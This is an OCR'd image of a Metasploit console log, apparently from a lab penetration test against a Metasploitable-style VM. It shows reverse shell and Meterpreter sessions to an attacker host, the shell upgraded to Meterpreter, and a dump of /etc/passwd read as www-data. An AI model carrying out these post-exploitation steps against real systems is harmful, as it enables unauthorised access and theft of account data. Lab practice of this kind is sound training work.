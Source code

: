 
```
msf6 post(multi/manage/shell_to_meterpreter) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  3         shell cmd/unix                                   192.168.0.156:4444 -> 192.168.0.207:37890 (192.168.0.207)
  4         meterpreter x86/linux  www-data @ 192.168.0.207  192.168.0.156:4433 -> 192.168.0.207:53807 (192.168.0.207)

msf6 post(multi/manage/shell_to_meterpreter) > sessions 4
[*] Starting interaction with 4...

meterpreter > sysinfo
Computer     : 192.168.0.207
OS           : Ubuntu 14.04 (Linux 3.13.0-24-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > getuid
Server username: www-data


meterpreter > cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
statd:x:104:65534::/var/lib/nfs:/bin/false
vagrant:x:900:900:vagrant,,,:/home/vagrant:/bin/bash
dirmngr:x:105:111::/var/cache/dirmngr:/bin/sh
leia_organa:x:1111:100::/home/leia_organa:/bin/bash
luke_skywalker:x:1112:100::/home/luke_skywalker:/bin/bash
han_solo:x:1113:100::/home/han_solo:/bin/bash
artoo_detoo:x:1114:100::/home/artoo_detoo:/bin/bash
c_three_pio:x:1115:100::/home/c_three_pio:/bin/bash
ben_kenobi:x:1116:100::/home/ben_kenobi:/bin/bash
darth_vader:x:1117:100::/home/darth_vader:/bin/bash
anakin_skywalker:x:1118:100::/home/anakin_skywalker:/bin/bash
jarjar_binks:x:1119:100::/home/jarjar_binks:/bin/bash
lando_calrissian:x:1120:100::/home/lando_calrissian:/bin/bash
boba_fett:x:1121:100::/home/boba_fett:/bin/bash
```